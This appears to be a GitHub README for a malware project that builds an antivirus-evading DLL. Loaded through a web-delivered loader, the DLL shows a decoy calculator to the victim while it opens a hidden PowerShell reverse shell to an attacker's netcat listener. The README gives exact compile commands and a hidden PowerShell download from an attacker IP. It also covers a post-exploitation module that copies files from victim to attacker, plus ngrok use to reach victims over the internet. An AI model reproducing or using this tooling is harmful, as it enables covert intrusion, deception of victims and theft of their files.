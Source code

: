 # DLLREVERSESHELL
<b>A CUSTOM CODED FUD DLL, CODED IN C , WHEN LOADED , VIA A DECOY WEB-DELIVERY MODULE( FIRING A DECOY PROGRAM), WILL GIVE A REVERSE SHELL (POWERSHELL) FROM THE VICTIM MACHINE TO THE ATTACKER CONSOLE , OVER LAN AND WAN.
</b>

The project comprises of:


<p><b>. A custom C header file, mingwdll.h </b></p>
<p><b>. The DLL C code mingw_dll.c </b></p>
<p><b>. The Loader file loader.c , that will invoke a web delivery of the DLL ,to the target machine, load the DLL in the runtime, producing the decoy program for the victim on the foreground, and spawning a connect back reverse shell (powershell) to the attacker, in the back ground </b></p>

<p><b><i> Phase 1 : </b></i></p>

Place the mingwdll.h and mingw_dll.c in the same folder and compile using :

<b>i686-w64-mingw32-gcc -Wall -shared mingw_dll.c -o calc_helper.dll -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc </b>

This will create the FUD DLL <b> calc_helper.dll </b>

File Description:
<b> root@nautilus:~/Desktop/c_code/dll_rsh# file calc_helper.dll
calc_helper.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
</b>

<p><b><i> Phase 2 : </b></i></p>
Compile the loader.c using <b> i686-w64-mingw32-gcc loader.c -o improved_calc.exe </b>
This will create the PE32 executable improved_calc.exe.

File Description:
<b>improved_calc.exe: PE32 executable (console) Intel 80386, for MS Windows </b>

When the file improved_calc.exe , it might initially throw a Dll load error, thus I have ensured that a second call to regsvr32 is made post a _sleep() function, to ensure the DLL load on runtime.

Post the DLL is loaded , it will fire the decoy , calc.exe and spawn a reverse shell, (netcat listener on port 8080 as defined in the header file { nc -lvp 8080 } ) 

Cheers

#Captain_Nemo

# DLLREVERSESHELL

<b><p>https://youtu.be/HR0C_2_UAT8</p></b>


# POST EXPLOITATION MODULE

I have added a post exploitation module for file transfer , from the Victim machine to the Attacker machine.

Compile the C program , ft_clie.c using 

<p><b>i686-w64-mingw32-gcc ft_clie.c -o client_ft.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
 </p></b>
 
 
 This is webdelivered to the victim , through the newly incorporated system() function call system("start powershell -windowstyle Hidden Invoke-WebRequest -Uri 'http://192.168.225.196/client_ft.exe' -OutFile 'client_ft.exe'"); , in loader.c 
 
 <p><b> 
  syntax to run client_ft.exe : 
  
  .\client_ft.exe ss.txt 192.168.225.196 4444
  
  or
  
  .\client_ft.exe filename attackerip attackerport
  
  from the reverse shell
  </p></b>
  
  <p><b>
  In the mean while , compile the serverfiletransfer.c using 
  gcc serverfiletransfer.c -o serv 
  
  Syntax: ./serv localattackerip chosenport
  or 
  ./serv 192.168.225.196 4444
  
 </p></b>
 
 <p>
 Once the reverse shell is obtained, ready the server using ./serv <localattackerip> <chosenport>  on a Linux terminal and on the Reverseshell , execute  .\client_ft.exe <filename> <attackerip> <attackerport> , to transfer files from the victim to the atacker machine. 
  This exploit can be leveraged to WAN using ngrok.
  </p>
  
  <b>https://youtu.be/KJOwew96pqw</b>
  
  # POST EXPLOITATION MODULE
